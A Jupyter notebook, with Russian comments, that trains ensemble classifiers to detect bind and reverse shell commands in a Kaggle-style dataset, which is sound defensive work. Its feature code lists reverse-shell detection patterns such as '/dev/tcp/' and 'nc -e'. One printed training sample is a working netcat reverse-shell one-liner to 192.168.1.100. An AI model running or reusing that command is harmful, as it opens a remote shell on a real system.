


=== ВСЕ САБМИТЫ СОХРАНЕНЫ ===
1. submission_final_main.csv (оптимальный порог)
2. submission_final_aggressive.csv (порог=0.3)
3. submission_best_model.csv (xgb_focused, порог=0.5)
4. submission_majority.csv (голосование большинства)


In [14]:
# Основной сабмит с оптимизированным порогом
final_pred = (weighted_test >= optimal_threshold).astype(int)

submission_main = pd.DataFrame({
    'ID': test_df['ID'],
    'label': final_pred
})
submission_main.to_csv('submission_final_main.csv', index=False)

print(f"\n=== ФИНАЛЬНЫЙ САБМИТ (порог={optimal_threshold:.3f}) ===")
print(f"Распределение: {submission_main['label'].value_counts().to_dict()}")
print(f"Доля аномалий: {submission_main['label'].mean():.2%}")

# Сабмит с более агрессивным порогом (больше аномалий)
aggressive_pred = (weighted_test >= 0.3).astype(int)
submission_aggressive = pd.DataFrame({
    'ID': test_df['ID'],
    'label': aggressive_pred
})
submission_aggressive.to_csv('submission_final_aggressive.csv', index=False)

print(f"\n=== АГРЕССИВНЫЙ САБМИТ (порог=0.3) ===")
print(f"Распределение: {submission_aggressive['label'].value_counts().to_dict()}")
print(f"Доля аномалий: {submission_aggressive['label'].mean():.2%}")

# Сабмит на основе лучшей модели (xgb_focused)
best_model_pred = (test_preds['xgb_focused'] >= 0.5).astype(int)
submission_best_model = pd.DataFrame({
    'ID': test_df['ID'],
    'label': best_model_pred
})
submission_best_model.to_csv('submission_best_model.csv', index=False)

print(f"\n=== ЛУЧШАЯ МОДЕЛЬ (xgb_focused, порог=0.5) ===")
print(f"Распределение: {submission_best_model['label'].value_counts().to_dict()}")
print(f"Доля аномалий: {submission_best_model['label'].mean():.2%}")

# Majority vote
majority = np.zeros(len(test_df))
for name in models.keys():
    majority += (test_preds[name] >= 0.5).astype(int)
majority_pred = (majority >= 3).astype(int)  # минимум 3 модели согласны

submission_majority = pd.DataFrame({
    'ID': test_df['ID'],
    'label': majority_pred
})
submission_majority.to_csv('submission_majority.csv', index=False)

print(f"\n=== MAJORITY VOTE ===")
print(f"Распределение: {submission_majority['label'].value_counts().to_dict()}")
print(f"Доля аномалий: {submission_majority['label'].mean():.2%}")

# Визуализация предсказаний
plt.figure(figsize=(15, 5))

plt.subplot(1, 3, 1)
plt.hist(weighted_test, bins=50, alpha=0.7)
plt.axvline(x=optimal_threshold, color='r', linestyle='--', label=f'Optimal={optimal_threshold:.3f}')
plt.axvline(x=0.5, color='g', linestyle='--', label='Default=0.5')
plt.xlabel('Probability')
plt.ylabel('Count')
plt.title('Distribution of Test Predictions')
plt.legend()

plt.subplot(1, 3, 2)
model_names = list(models.keys())
model_weights = optimal_weights
plt.bar(model_names, model_weights)
plt.xlabel('Model')
plt.ylabel('Weight')
plt.title('Model Weights')
plt.xticks(rotation=45)

plt.subplot(1, 3, 3)
plt.plot(thresholds, f1_scores)
plt.axvline(x=optimal_threshold, color='r', linestyle='--')
plt.xlabel('Threshold')
plt.ylabel('F1 Score')
plt.title('F1 Score vs Threshold')
plt.grid(True)

plt.tight_layout()
plt.savefig('final_analysis_v2.png')
plt.show()

print("\n=== ВСЕ САБМИТЫ СОХРАНЕНЫ ===")
print("1. submission_final_main.csv (оптимальный порог)")
print("2. submission_final_aggressive.csv (порог=0.3)")
print("3. submission_best_model.csv (xgb_focused, порог=0.5)")
print("4. submission_majority.csv (голосование большинства)")

In [15]:
#0.947
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.model_selection import StratifiedKFold, cross_val_predict, cross_val_score
from sklearn.feature_extraction.text import TfidfVectorizer, CountVectorizer
from sklearn.ensemble import RandomForestClassifier, VotingClassifier
from sklearn.linear_model import LogisticRegression
from sklearn.metrics import f1_score, classification_report, confusion_matrix
from sklearn.preprocessing import StandardScaler
import xgboost as xgb
import lightgbm as lgb
from scipy.sparse import hstack, csr_matrix
import re
import warnings
warnings.filterwarnings('ignore')

# Загружаем данные
train_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/train.parquet')
test_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/test.parquet')

# Обрабатываем пропуски
train_df['shell'] = train_df['shell'].fillna('')
test_df['shell'] = test_df['shell'].fillna('')

print(f"Train shape: {train_df.shape}")
print(f"Test shape: {test_df.shape}")
print(f"Аномалий в train: {train_df['label'].mean():.2%}")

Train shape: (10950, 2)
Test shape: (8654, 2)
Аномалий в train: 6.19%


In [16]:
def extract_advanced_features(shell_series):
    """
    Расширенное извлечение признаков из shell команд
    """
    features = pd.DataFrame(index=shell_series.index)
    shell_series = shell_series.fillna('')
    
    # 1. Базовые признаки
    features['length'] = shell_series.str.len()
    features['is_empty'] = (features['length'] == 0).astype(int)
    features['word_count'] = shell_series.str.split().str.len()
    features['char_entropy'] = shell_series.apply(lambda x: len(set(x)) / (len(x) + 1))
    
    # 2. Специальные символы (расширенный список)
    special_chars = ['&', '|', ';', '>', '<', '$', '`', '\\', '"', "'", '(', ')', '{', '}', '[', ']', '*', '?', '!', '@', '#', '%', '^', '~']
    for char in special_chars:
        features[f'count_{char}'] = shell_series.str.count(re.escape(char))
    
    features['special_chars_ratio'] = features[[f'count_{char}' for char in special_chars]].sum(axis=1) / (features['length'] + 1)
    
    # 3. Расширенные сетевые признаки
    # IP адреса
    ip_pattern = r'\b(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\b'
    features['ip_count'] = shell_series.str.findall(ip_pattern).str.len()
    features['has_ip'] = (features['ip_count'] > 0).astype(int)
    
    # Порты
    features['port_count'] = shell_series.str.findall(r':(\d{1,5})\b').str.len()
    features['has_port'] = (features['port_count'] > 0).astype(int)
    
    # URL
    features['has_url'] = shell_series.str.contains(r'https?://|ftp://').astype(int)
    
    # 4. Детекторы reverse shell
    reverse_indicators = {
        'bash_reverse': r'bash.*(?:/dev/tcp/|/dev/udp/|>&)',
        'python_reverse': r'python.*(?:import.*socket|/dev/tcp|reverse_shell)',
        'perl_reverse': r'perl.*(?:socket|reverse)',
        'nc_reverse': r'nc.*-e.*\d+\.\d+\.\d+\.\d+',
        'php_reverse': r'php.*(?:fsockopen|exec)',
        'ruby_reverse': r'ruby.*(?:socket|reverse)',
        'java_reverse': r'java.*(?:socket|Runtime)',
        'powershell_reverse': r'powershell.*(?:New-Object.*Socket|reverse)',
    }
    
    for name, pattern in reverse_indicators.items():
        features[f'reverse_{name}'] = shell_series.str.contains(pattern, case=False).astype(int)
    
    # 5. Детекторы bind shell
    bind_indicators = {
        'nc_bind': r'nc.*-l.*-p',
        'socat_bind': r'socat.*(?:listen|fork)',
        'python_bind': r'python.*(?:bind|listen)',
        'perl_bind': r'perl.*(?:bind|listen)',
        'php_bind': r'php.*(?:bind|listen)',
    }
    
    for name, pattern in bind_indicators.items():
        features[f'bind_{name}'] = shell_series.str.contains(pattern, case=False).astype(int)
    
    # 6. Общие индикаторы атак
    attack_indicators = {
        'netcat': r'\bnc\b|\bncat\b|\bnetcat\b',
        'socat': r'\bsocat\b',
        'meterpreter': r'meterpreter',
        'metasploit': r'metasploit',
        'exploit': r'exploit',
        'payload': r'payload',
        'backdoor': r'backdoor',
        'connect_back': r'connect-back|connectback',
    }
    
    for name, pattern in attack_indicators.items():
        features[f'attack_{name}'] = shell_series.str.contains(pattern, case=False).astype(int)
    
    # 7. Подозрительные комбинации
    features['suspicious_redirect'] = shell_series.str.contains(r'\d+>&\d+|\d+>>?\s*/dev/').astype(int)
    features['suspicious_pipe'] = shell_series.str.contains(r'\|.*(?:bash|sh|nc|python|perl)').astype(int)
    features['encoded_command'] = shell_series.str.contains(r'base64|hex|%[0-9A-F]{2}').astype(int)
    
    # 8. Количество разных типов команд
    common_cmds = ['nmap', 'ssh', 'scp', 'wget', 'curl', 'telnet', 'ftp', 'python', 'perl', 'ruby', 'php', 'java']
    for cmd in common_cmds:
        features[f'cmd_{cmd}'] = shell_series.str.contains(r'\b' + cmd + r'\b').astype(int)
    
    features['total_commands'] = features[[f'cmd_{cmd}' for cmd in common_cmds]].sum(axis=1)
    
    # 9. Статистика по словам
    features['uppercase_ratio'] = shell_series.str.count('[A-Z]') / (features['length'] + 1)
    features['lowercase_ratio'] = shell_series.str.count('[a-z]') / (features['length'] + 1)
    features['digit_ratio'] = shell_series.str.count('\d') / (features['length'] + 1)
    features['space_ratio'] = shell_series.str.count('\s') / (features['length'] + 1)
    
    # 10. Характерные для шеллов паттерны
    features['has_if'] = shell_series.str.contains(r'\bif\b.*;').astype(int)
    features['has_while'] = shell_series.str.contains(r'\bwhile\b.*;').astype(int)
    features['has_for'] = shell_series.str.contains(r'\bfor\b.*;').astype(int)
    features['has_function'] = shell_series.str.contains(r'function\s+\w+\s*{').astype(int)
    
    # 11. Признаки для пустых строк (важно!)
    features['is_empty_shell'] = (features['length'] == 0).astype(int)
    
    return features

# Извлекаем улучшенные признаки
print("Извлекаем расширенные признаки...")
X_train_features = extract_advanced_features(train_df['shell'])
X_test_features = extract_advanced_features(test_df['shell'])

print(f"Количество признаков: {X_train_features.shape[1]}")

Извлекаем расширенные признаки...
Количество признаков: 80


In [17]:
# TF-IDF векторизация с разными параметрами
tfidf_char = TfidfVectorizer(
    analyzer='char',
    ngram_range=(2, 5),
    max_features=5000,
    min_df=2,
    max_df=0.8,
    sublinear_tf=True
)

tfidf_word = TfidfVectorizer(
    analyzer='word',
    ngram_range=(1, 3),
    max_features=3000,
    min_df=2,
    max_df=0.7,
    stop_words=None,
    sublinear_tf=True
)

print("Обучаем TF-IDF...")
X_train_char = tfidf_char.fit_transform(train_df['shell'])
X_test_char = tfidf_char.transform(test_df['shell'])

X_train_word = tfidf_word.fit_transform(train_df['shell'])
X_test_word = tfidf_word.transform(test_df['shell'])

# Комбинируем все признаки
X_train_combined = hstack([
    X_train_char, 
    X_train_word, 
    csr_matrix(X_train_features)
])

X_test_combined = hstack([
    X_test_char, 
    X_test_word, 
    csr_matrix(X_test_features)
])

print(f"Итоговое пространство признаков: {X_train_combined.shape}")

Обучаем TF-IDF...
Итоговое пространство признаков: (10950, 8080)


In [18]:
# Настраиваем стратифицированную кросс-валидацию
n_folds = 5
skf = StratifiedKFold(n_splits=n_folds, shuffle=True, random_state=42)

# Модели с разными параметрами
models = {
    'xgb_depth6': xgb.XGBClassifier(
        n_estimators=300,
        max_depth=6,
        learning_rate=0.05,
        subsample=0.8,
        colsample_bytree=0.8,
        scale_pos_weight=15,  # Учитываем дисбаланс
        random_state=42,
        use_label_encoder=False,
        eval_metric='logloss'
    ),
    'xgb_depth4': xgb.XGBClassifier(
        n_estimators=300,
        max_depth=4,
        learning_rate=0.05,
        subsample=0.9,
        colsample_bytree=0.7,
        scale_pos_weight=15,
        random_state=43,
        use_label_encoder=False,
        eval_metric='logloss'
    ),
    'lgb': lgb.LGBMClassifier(
        n_estimators=300,
        max_depth=7,
        learning_rate=0.05,
        subsample=0.8,
        colsample_bytree=0.8,
        scale_pos_weight=15,
        random_state=42,
        verbose=-1
    ),
    'rf_balanced': RandomForestClassifier(
        n_estimators=200,
        max_depth=10,
        min_samples_split=5,
        min_samples_leaf=2,
        class_weight='balanced',
        random_state=42,
        n_jobs=-1
    )
}

# Собираем предсказания с кросс-валидацией
cv_predictions = {name: [] for name in models.keys()}
cv_true_labels = []
test_predictions = {name: [] for name in models.keys()}

for fold, (train_idx, val_idx) in enumerate(skf.split(X_train_combined, train_df['label'])):
    print(f"\n=== Fold {fold + 1}/{n_folds} ===")
    
    X_tr = X_train_combined[train_idx]
    X_val = X_train_combined[val_idx]
    y_tr = train_df['label'].iloc[train_idx]
    y_val = train_df['label'].iloc[val_idx]
    
    for name, model in models.items():
        print(f"Training {name}...")
        model.fit(X_tr, y_tr)
        
        # Валидационные предсказания
        val_pred = model.predict_proba(X_val)[:, 1]
        cv_predictions[name].extend(val_pred)
        
        # Тестовые предсказания (усредняем по фолдам)
        test_pred = model.predict_proba(X_test_combined)[:, 1]
        test_predictions[name].append(test_pred)
    
    cv_true_labels.extend(y_val)

# Преобразуем в numpy массивы
for name in models.keys():
    cv_predictions[name] = np.array(cv_predictions[name])
    test_predictions[name] = np.mean(test_predictions[name], axis=0)

cv_true_labels = np.array(cv_true_labels)


=== Fold 1/5 ===
Training xgb_depth6...
Training xgb_depth4...
Training lgb...
Training rf_balanced...

=== Fold 2/5 ===
Training xgb_depth6...
Training xgb_depth4...
Training lgb...
Training rf_balanced...

=== Fold 3/5 ===
Training xgb_depth6...
Training xgb_depth4...
Training lgb...
Training rf_balanced...

=== Fold 4/5 ===
Training xgb_depth6...
Training xgb_depth4...
Training lgb...
Training rf_balanced...

=== Fold 5/5 ===
Training xgb_depth6...
Training xgb_depth4...
Training lgb...
Training rf_balanced...


In [19]:
# Создаем мета-признаки
meta_features_cv = np.column_stack([cv_predictions[name] for name in models.keys()])
meta_features_test = np.column_stack([test_predictions[name] for name in models.keys()])

# Обучаем мета-модель (логистическая регрессия)
meta_model = LogisticRegression(C=1.0, class_weight='balanced', random_state=42)
meta_model.fit(meta_features_cv, cv_true_labels)

# Предсказания мета-модели
meta_pred_cv = meta_model.predict_proba(meta_features_cv)[:, 1]

# Оптимизация порога
from sklearn.metrics import precision_recall_curve

precisions, recalls, thresholds = precision_recall_curve(cv_true_labels, meta_pred_cv)
f1_scores = 2 * (precisions[:-1] * recalls[:-1]) / (precisions[:-1] + recalls[:-1] + 1e-10)

optimal_idx = np.argmax(f1_scores)
optimal_threshold = thresholds[optimal_idx]
optimal_f1 = f1_scores[optimal_idx]

print(f"\nОптимальный порог: {optimal_threshold:.4f}")
print(f"F1 на кросс-валидации: {optimal_f1:.4f}")

# Финальные предсказания для теста
meta_pred_test = meta_model.predict_proba(meta_features_test)[:, 1]
final_predictions = (meta_pred_test >= optimal_threshold).astype(int)

# Проверяем распределение
print(f"\nРаспределение финальных предсказаний:")
print(pd.Series(final_predictions).value_counts())
print(f"Доля аномалий: {final_predictions.mean():.2%}")


Оптимальный порог: 0.7971
F1 на кросс-валидации: 0.5875

Распределение финальных предсказаний:
0    8470
1     184
Name: count, dtype: int64
Доля аномалий: 2.13%



Топ-20 самых важных признаков:
              feature  importance
8003     char_entropy    0.083188
8002       word_count    0.065634
8001         is_empty    0.054137
8072  lowercase_ratio    0.045237
8000           length    0.038742
8079   is_empty_shell    0.036287
8074      space_ratio    0.022684
3287               ls    0.020390
6578               ls    0.017646
2081               cd    0.010739
8014          count_(    0.010666
2082              cd     0.010100
33                  -    0.008919
8015          count_)    0.008389
2286               d     0.008123
8012          count_"    0.007774
8006          count_;    0.006917
2695              exe    0.006823
5788               cd    0.006557
2546               ec    0.005901




In [20]:
# Анализ важности признаков (для Random Forest)
rf_model = models['rf_balanced']
rf_model.fit(X_train_combined, train_df['label'])

# Получаем названия признаков
char_features = tfidf_char.get_feature_names_out().tolist()
word_features = tfidf_word.get_feature_names_out().tolist()
engineered_features = X_train_features.columns.tolist()

all_features = char_features + word_features + engineered_features

# Важность признаков
importance_df = pd.DataFrame({
    'feature': all_features,
    'importance': rf_model.feature_importances_
}).sort_values('importance', ascending=False)

print("\nТоп-20 самых важных признаков:")
print(importance_df.head(20))

# Визуализация
plt.figure(figsize=(12, 8))
top_features = importance_df.head(20)
plt.barh(range(20), top_features['importance'].values[::-1])
plt.yticks(range(20), top_features['feature'].values[::-1])
plt.xlabel('Importance')
plt.title('Top 20 Most Important Features')
plt.tight_layout()
plt.savefig('feature_importance.png')
plt.show()


Первые строки сабмита:
   ID  label
0   0      0
1   1      0
2   2      0
3   3      0
4   4      0
5   5      0
6   6      0
7   7      0
8   8      0
9   9      0

Файл submission_improved.csv сохранен!




In [21]:
# Создаем сабмит
submission = pd.DataFrame({
    'ID': test_df['ID'],
    'label': final_predictions
})

print("\nПервые строки сабмита:")
print(submission.head(10))

# Сохраняем
submission.to_csv('submission_improved.csv', index=False)
print("\nФайл submission_improved.csv сохранен!")

# Сохраняем также с вероятностями для анализа
submission_probs = pd.DataFrame({
    'ID': test_df['ID'],
    'label': final_predictions,
    'probability': meta_pred_test
})
submission_probs.to_csv('submission_improved_with_probs.csv', index=False)

# Анализ уверенности модели
plt.figure(figsize=(10, 6))
plt.hist(meta_pred_test[final_predictions == 0], bins=50, alpha=0.5, label='Predicted 0', density=True)
plt.hist(meta_pred_test[final_predictions == 1], bins=50, alpha=0.5, label='Predicted 1', density=True)
plt.xlabel('Probability')
plt.ylabel('Density')
plt.title('Distribution of Prediction Probabilities')
plt.legend()
plt.axvline(x=optimal_threshold, color='r', linestyle='--', label=f'Threshold={optimal_threshold:.3f}')
plt.savefig('probability_distribution.png')
plt.show()

In [22]:
#0.93 на сабмите
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
import re
import warnings
warnings.filterwarnings('ignore')

# Загружаем данные с правильными путями
train_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/train.parquet')
test_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/test.parquet')

print("Размер тренировочных данных:", train_df.shape)
print("Размер тестовых данных:", test_df.shape)
print("\nКолонки в train:", train_df.columns.tolist())
print("Колонки в test:", test_df.columns.tolist())

print("\nРаспределение целевой переменной:")
print(train_df['label'].value_counts())
print(f"\nДоля аномальных shell: {train_df['label'].mean():.2%}")

# Проверяем пропуски
print("\nПропуски в train:")
print(train_df.isnull().sum())
print("\nПропуски в test:")
print(test_df.isnull().sum())

# Обрабатываем пропуски - заменяем None на пустую строку
train_df['shell'] = train_df['shell'].fillna('')
test_df['shell'] = test_df['shell'].fillna('')

print("\nПосле обработки пропусков:")
print("Пропуски в train:", train_df['shell'].isnull().sum())
print("Пропуски в test:", test_df['shell'].isnull().sum())

# Теперь посмотрим примеры
print("\nПримеры легитимных shell (label=0):")
for i, shell in enumerate(train_df[train_df['label']==0]['shell'].head(3)):
    if shell:  # проверяем, что не пустая строка
        print(f"{i+1}. {shell[:200]}...")
    else:
        print(f"{i+1}. [пустая строка]")

print("\nПримеры bind/reverse shell (label=1):")
for i, shell in enumerate(train_df[train_df['label']==1]['shell'].head(3)):
    if shell:
        print(f"{i+1}. {shell[:200]}...")
    else:
        print(f"{i+1}. [пустая строка]")

Размер тренировочных данных: (10950, 2)
Размер тестовых данных: (8654, 2)

Колонки в train: ['shell', 'label']
Колонки в test: ['ID', 'shell']

Распределение целевой переменной:
label
0    10272
1      678
Name: count, dtype: int64

Доля аномальных shell: 6.19%

Пропуски в train:
shell    1428
label       0
dtype: int64

Пропуски в test:
ID       0
shell    0
dtype: int64

После обработки пропусков:
Пропуски в train: 0
Пропуски в test: 0

Примеры легитимных shell (label=0):
1. nmap -p 10000 10.1.26.9...
2. scp invoices2019.zip ssh root@server:/root/desktop...
3. find . -iname \*.zip...

Примеры bind/reverse shell (label=1):
1. [пустая строка]
2. [пустая строка]
3. python3 -c exec("import os; os.system('nc -e /bin/bash 192.168.1.100 8080')")...


In [23]:
def extract_features_from_shell(shell_series):
    """
    Извлекает различные признаки из shell команд
    """
    features = pd.DataFrame(index=shell_series.index)
    
    # Заполняем None пустыми строками для безопасности
    shell_series = shell_series.fillna('')
    
    # 1. Базовая статистика
    features['length'] = shell_series.str.len()
    features['is_empty'] = (features['length'] == 0).astype(int)
    features['word_count'] = shell_series.str.split().str.len()
    features['avg_word_length'] = features['length'] / (features['word_count'] + 1)
    
    # 2. Специальные символы
    special_chars = ['&', '|', ';', '>', '<', '$', '`', '\\', '"', "'", '(', ')', '{', '}']
    for char in special_chars:
        features[f'count_{char}'] = shell_series.str.count(re.escape(char))
    
    features['total_special_chars'] = features[[f'count_{char}' for char in special_chars]].sum(axis=1)
    
    # 3. Сетевые индикаторы
    features['has_ip'] = shell_series.str.contains(r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}').astype(int)
    features['ip_count'] = shell_series.str.findall(r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}').str.len()
    features['has_port'] = shell_series.str.contains(r':\d{1,5}').astype(int)
    features['has_localhost'] = shell_series.str.contains('localhost|127\.0\.0\.1|0\.0\.0\.0').astype(int)
    
    # 4. Ключевые слова для reverse shell
    reverse_patterns = [
        '/dev/tcp/', '/dev/udp/', 'bash -i', 'sh -i', 'nc -e', 'ncat -e',
        'exec 5<>/dev/tcp', 'exec >& /dev/tcp', '0>&1', '2>&1',
        'connect-back', 'reverse shell', 'reverse_shell'
    ]
    
    for pattern in reverse_patterns:
        col_name = f'has_{pattern.replace("/", "_").replace("-", "_").replace(" ", "_").replace(">", "_")}'
        features[col_name] = shell_series.str.contains(re.escape(pattern)).astype(int)
    
    # 5. Ключевые слова для bind shell
    bind_patterns = [
        'nc -l', 'ncat -l', 'netcat -l', '-lvp', '-lvnp', '-lnp', '-lp',
        'listen', 'bind shell', 'bind_shell', 'socat', 'LISTEN'
    ]
    
    for pattern in bind_patterns:
        col_name = f'has_{pattern.replace("-", "_").replace(" ", "_")}'
        features[col_name] = shell_series.str.contains(re.escape(pattern)).astype(int)
    
    # 6. Команды и утилиты
    common_tools = ['nmap', 'scp', 'ssh', 'telnet', 'ftp', 'wget', 'curl', 'python', 'perl', 'ruby', 'php']
    for tool in common_tools:
        features[f'uses_{tool}'] = shell_series.str.contains(r'\b' + tool + r'\b').astype(int)
    
    # 7. Структурные признаки
    features['pipe_count'] = shell_series.str.count('\|')
    features['redirect_count'] = shell_series.str.count('[><]')
    features['semicolon_count'] = shell_series.str.count(';')
    features['ampersand_count'] = shell_series.str.count('&')
    features['dollar_count'] = shell_series.str.count('\$')
    features['brace_count'] = shell_series.str.count('[{}]')
    
    # 8. Соотношение символов
    features['digit_ratio'] = shell_series.str.count('\d') / (features['length'] + 1)
    features['letter_ratio'] = shell_series.str.count('[a-zA-Z]') / (features['length'] + 1)
    features['special_ratio'] = features['total_special_chars'] / (features['length'] + 1)
    
    # 9. Характерные для атак паттерны
    features['has_bash_redirect'] = shell_series.str.contains('bash.*[><]|bash.*/dev/tcp').astype(int)
    features['has_fd_redirect'] = shell_series.str.contains('\d+>&\d+').astype(int)
    features['has_multiple_commands'] = (features['semicolon_count'] > 1).astype(int)
    
    # 10. Энтропия (мера хаотичности) - можно добавить позже для сложных случаев
    
    return features

# Извлекаем признаки
print("Извлекаем признаки из train...")
X_train_features = extract_features_from_shell(train_df['shell'])
print("Извлекаем признаки из test...")
X_test_features = extract_features_from_shell(test_df['shell'])

print(f"\nКоличество признаков: {X_train_features.shape[1]}")
print("Первые 10 признаков:", X_train_features.columns[:10].tolist())

# Проверяем статистику признаков
print("\nСтатистика признаков:")
print(X_train_features.describe())

# Проверяем, есть ли разница между классами
train_with_features = pd.concat([train_df[['label']], X_train_features], axis=1)
print("\nСредние значения признаков для разных классов:")
print(train_with_features.groupby('label').mean().T)

Извлекаем признаки из train...
Извлекаем признаки из test...

Количество признаков: 69
Первые 10 признаков: ['length', 'is_empty', 'word_count', 'avg_word_length', 'count_&', 'count_|', 'count_;', 'count_>', 'count_<', 'count_$']

Статистика признаков:
             length      is_empty    word_count  avg_word_length  \
count  10950.000000  10950.000000  10950.000000     10950.000000   
mean      17.196164      0.130411      2.028676         4.240517   
std       29.276353      0.336770      1.640573         7.607836   
min        0.000000      0.000000      0.000000         0.000000   
25%        2.000000      0.000000      1.000000         1.000000   
50%        8.000000      0.000000      2.000000         3.000000   
75%       19.000000      0.000000      3.000000         5.666667   
max      754.000000      1.000000     16.000000       377.000000   

            count_&       count_|       count_;       count_>       count_<  \
count  10950.000000  10950.000000  10950.000000  10950.

In [24]:
from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import TfidfVectorizer
from scipy.sparse import hstack, csr_matrix

# Разделяем на train/validation
X_train_text, X_val_text, y_train, y_val = train_test_split(
    train_df['shell'], train_df['label'], test_size=0.2, random_state=42, stratify=train_df['label']
)

# Получаем соответствующие признаки
X_train_feat = X_train_features.loc[X_train_text.index]
X_val_feat = X_train_features.loc[X_val_text.index]

print(f"Размер обучающей выборки: {len(X_train_text)}")
print(f"Размер валидационной выборки: {len(X_val_text)}")
